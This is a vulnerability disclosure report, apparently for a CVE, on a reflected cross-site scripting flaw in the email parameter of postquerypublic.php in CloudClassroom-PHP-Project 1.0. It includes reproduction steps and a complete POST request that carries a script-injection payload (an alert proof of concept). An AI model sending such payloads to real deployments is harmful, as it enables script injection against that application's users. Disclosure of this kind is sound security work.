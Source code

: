 Vulnerability Type:
Cross Site Scripting (XSS)

------------------------------------------
Vendor of Product
------------------------------------------
https://github.com/mathurvishal/CloudClassroom-PHP-Project

------------------------------------------
Affected Product Code Base
------------------------------------------
https://github.com/mathurvishal/CloudClassroom-PHP-Project 1.0 - https://github.com/mathurvishal/CloudClassroom-PHP-Project 1.0

------------------------------------------
Affected Component : 
postquerypublic.php, email parameter in POST request

------------------------------------------
Attack Type :
Remote

------------------------------------------
Attack Vectors
------------------------------------------
An attacker can exploit this vulnerability by sending a crafted POST request to the vulnerable endpoint /CloudClassroom-PHP-Project-master/postquerypublic, injecting malicious JavaScript via the email parameter. The application reflects this input without sanitization, leading to reflected XSS.

------------------------------------------
Reproduction Steps:
------------------------------------------
Deploy the vulnerable PHP app locally (e.g., http://localhost/CloudClassroom-PHP-Project-master/).

------------------------------------------
Send the following POST request:
------------------------------------------

POST /CloudClassroom-PHP-Project-master/postquerypublic HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

email=testing@example.com'"()&%<zzz><ScRiPt >alert(9001)</ScRiPt>&gnamex=abc&squeryx=123&update=Post%20Query!

------------------------------------------
Reference
------------------------------------------
https://owasp.org/www-community/attacks/xss/

------------------------------------------
Discoverer:
saurabh
--------------------------
Linkedin: https://www.linkedin.com/in/saurabh-b294b21aa/
